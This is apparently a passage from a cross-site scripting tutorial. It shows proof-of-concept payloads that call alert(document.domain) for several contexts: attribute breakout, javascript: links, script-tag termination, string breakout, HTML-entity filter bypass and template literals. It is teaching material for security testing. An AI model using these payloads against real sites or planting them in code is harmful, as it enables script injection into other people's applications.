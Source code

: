 ```
" autofocus onfocus=alert(document.domain) x="
```

```
<a href="javascript:alert(document.domain)">
```

### xss in javascript

**Terminating the existing script** In the simplest case, it is possible to simply close the script tag that is enclosing the existing JavaScript, and introduce some new HTML tags that will trigger execution of JavaScript. For example, if the XSS context is as follows:

```
</script><img src=1 onerror=alert(document.domain)>
```

**Breaking out of a JavaScript string**

```
'-alert(document.domain)-'
';alert(document.domain)//
```

**Making use of HTML-encoding**

When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around some input filters. For example, if the XSS context is as follows:

```
<a href="#" onclick="... var input='controllable data here'; ...">
```

and the application blocks or escapes single quote characters, you can use the following payload to break out of the JavaScript string and execute your own script:

```
&apos;-alert(document.domain)-&apos;
```

The ' sequence is an HTML entity representing an apostrophe or single quote

**XSS in JavaScript template literals** JavaScript template literals are string literals that allow embedded JavaScript expressions. The embedded expressions are evaluated and are normally concatenated into the surrounding text. Template literals are encapsulated in backticks instead of normal quotation marks, and embedded expressions are identified using the ${…} syntax.

For example, the following script will print a welcome message that includes the user’s display name:

document.getElementById(‘message’).innerText = `Welcome, ${user.displayName}.`;

When the XSS context is into a JavaScript template literal, there is no need to terminate the literal. Instead, you simply need to use the ${…} syntax to embed a JavaScript expression that will be executed when the literal is processed. For example, if the XSS context is as follows:

```
<script>
...
var input = `controllable data here`;
...
</script>
```
